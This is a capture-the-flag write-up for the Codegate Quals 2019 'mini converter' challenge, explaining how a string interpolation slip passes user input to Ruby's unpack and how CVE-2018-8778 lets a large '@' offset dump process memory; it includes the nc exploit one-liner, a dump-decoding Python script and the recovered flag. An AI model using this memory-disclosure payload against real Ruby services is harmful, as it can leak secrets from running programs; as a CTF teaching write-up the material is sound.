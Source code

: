 ```yaml
---
title: "mini converter - Codegate Quals 2019"
date: "2019-01-28"
description: "Write-up for the mini converter challenge from Codegate Quals 2019."
tags: ["codegate", "ctf", "mhackeroni", "ruby", "cve"]
showAuthor: false
---
```


{{< lead >}}
Author: pietroferretti
{{< /lead >}}

>Can you read this? really???? lol

We have a small Ruby script and a TCP port to connect to.

```ruby
flag = "FLAG{******************************}"
# Can you read this? really???? lol

while true

    puts "[CONVERTER IN RUBY]"
    STDOUT.flush
    sleep(0.5)
    puts "Type something to convert\n\n"
    STDOUT.flush
    puts "[*] readme!"
    STDOUT.flush
    puts "When you want to type hex, contain '0x' at the first. e.g 0x41414a"
    STDOUT.flush
    puts "When you want to type string, just type string. e.g hello world"
    STDOUT.flush
    puts "When you want to type int, just type integer. e.g 102939"
    STDOUT.flush

    puts "type exit if you want to exit"
    STDOUT.flush

    input = gets.chomp
    puts input
    STDOUT.flush

    if input  == "exit"
        file_write()
        exit

    end

    puts "What do you want to convert?"
    STDOUT.flush

    if input[0,2] == "0x"
	    puts "hex"
        STDOUT.flush
	    puts "1. integer"
        STDOUT.flush
	    puts "2. string"
        STDOUT.flush

	    flag = 1
	
    elsif input =~/\D/
	    puts "string"
        STDOUT.flush
	    puts "1. integer"
        STDOUT.flush
	    puts "2. hex"
        STDOUT.flush

	    flag = 2
    
    else
	    puts "int"
        STDOUT.flush
	    puts "1. string"
        STDOUT.flush
	    puts "2. hex"
        STDOUT.flush

	    flag = 3
    end

    num = gets.to_i

    if flag == 1
	    if num == 1
		    puts "hex to integer"
            STDOUT.flush
            puts Integer(input)
            STDOUT.flush

    	elsif num == 2
		    puts "hex to string"
            STDOUT.flush
            tmp = []
            tmp << input[2..-1]
            puts tmp.pack("H*")
            STDOUT.flush
	    
        else
		    puts "invalid"
            STDOUT.flush
        end

    elsif flag == 2
	    if num == 1
		    puts "string to integer"
            STDOUT.flush
            puts input.unpack("C*#{input}.length")
            STDOUT.flush
	
        elsif num == 2
		    puts "string to hex"
            STDOUT.flush
            puts input.unpack("H*#{input}.length")[0]
            STDOUT.flush
	
        else
		    puts "invalid2"
            STDOUT.flush
        end

    elsif flag == 3
	    if num == 1
		    puts "int to string"
            STDOUT.flush
	
        elsif num == 2
		    puts "int to hex"
            STDOUT.flush
            puts input.to_i.to_s(16)
            STDOUT.flush
	    else
		    puts "invalid3"
            STDOUT.flush
        end

    else
	    puts "invalid4"
        STDOUT.flush

    end

end
```

The Ruby script's intended functionality apparently is to convert values to strings, integers and hexadecimal.

The bug is easily identifiable in the following lines:

```ruby
            puts input.unpack("C*#{input}.length")
[...]
            puts input.unpack("H*#{input}.length")[0]
```

In Ruby, `#{something}` is a template, which will be replaced by the value of `something`. 

Looks like the correct way to write those lines should have been with `length` inside the curly braces, to make it evaluate as the length of `input`. As it is now, `unpack` takes `input` itself as argument.

By itself unpack isn't insecure, but a quick Google search for "ruby unpack vulnerabilities" immediately gives a good candidate for exploitation:
[https://www.ruby-lang.org/en/news/2018/03/28/buffer-under-read-unpack-cve-2018-8778/](https://www.ruby-lang.org/en/news/2018/03/28/buffer-under-read-unpack-cve-2018-8778/)

On not so recent versions of ruby, passing big numbers as argument to unpack makes it possible to dump the memory of the program due to a wrong signed/unsigned conversion. This will probably let us retrieve the initial value of flag, even if the reference was overwritten.

### Dumping memory

```
$ (python -c "import sys; sys.stdout.write('@18446744073708351616C1200000\n1\n')"; cat -) | nc 110.10.147.105 12137 > dump.txt
```

### Converting the output to characters
The script outputs the result as single integers and floats. We can quickly convert those to actual characters.

```python
#!/usr/bin/env python2
import string
with open('dump.txt') as f:
    s = f.read()
out = ''
for line in s.split('\n'):
    try:
        c = chr(int(line))
        if c in string.printable:
            out += c
    except ValueError:
        continue
with open('dump2.txt', 'w') as g:
    g.write(out)
```

### Finding the flag
The last step is easy, we know the flag format.

```
$ cat dump2.txt | grep -i "FLAG{.*}"
FLAG{Run away with me.It'll be the way you want it}
```

